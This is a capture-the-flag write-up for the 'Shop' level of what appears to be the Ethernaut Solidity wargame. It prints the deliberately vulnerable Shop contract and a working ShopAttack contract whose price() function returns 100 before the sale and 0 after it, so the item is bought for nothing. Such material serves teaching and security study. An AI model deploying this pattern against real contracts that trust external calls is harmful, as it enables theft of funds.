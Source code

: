 # Challenge 21

<img src="./images/BigLevel21.svg" alt="21">

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

Challenge
---
> Сan you get the item from the shop for less than the price asked?

Solution
---
1. If you look at the first Contract it's Similar to the `Elevator`, here `isSold` becomes true then it's price will modify.

we need to make our bool `isSold` `0` (false) to `1` (true) then we will set the price, let's make contract.

```solidity
contract ShopAttack {
    Shop shopAddress;
    uint256 timesCalled = 1;

    constructor() {
        shopAddress = Shop(YOUR_INSTANCE_ADDRESS);
    }

    function attack() public {
        shopAddress.buy();
    }

    function price() external view returns (uint256) {
        return shopAddress.isSold() ? 0 : 100;
    }
}
```

now submit the instance and you will level pass the Level 🎉.